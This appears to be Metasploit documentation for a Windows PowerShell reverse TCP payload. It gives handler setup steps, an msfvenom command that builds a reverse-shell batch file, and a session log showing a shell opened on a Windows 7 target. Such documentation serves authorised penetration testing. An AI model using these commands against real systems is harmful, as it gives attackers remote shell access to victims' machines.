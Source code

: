 ## Vulnerable Application

This powershell payload is suitable for the following environments:

* Windows 7
* Windows Server 2012
* Windows 10

## Verification Steps

1. Do: `use exploit/multi/handler`
2. Do: `set payload cmd/windows/powershell_reverse_tcp`
2. Do: `set LHOST [IP]`
3. Do: `set LPORT [PORT]`
4. Do: `run`

## Scenarios

### Generating a batch file with msfvenom

```
msfvenom -p cmd/windows/powershell_reverse_tcp LHOST=192.168.0.2 LPORT=4444 -o powershell_reverse_tcp.bat
```

The output batch file can be executed directly on the target, or pasted as a command.

### Example usage on Windows 7 target

```
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload cmd/windows/powershell_reverse_tcp
payload => cmd/windows/powershell_reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Powershell session session 1 opened (192.168.0.2:4444 -> 192.168.0.2:49106 ) at 2021-11-02 12:28:28 +0000

User @ USER-PC
PS C:\Users\User> exit
[*] 192.168.0.2 - Powershell session session 1 closed.
```

## Options

### LOAD_MODULES

A list of powershell modules (separated by a commas) to download.

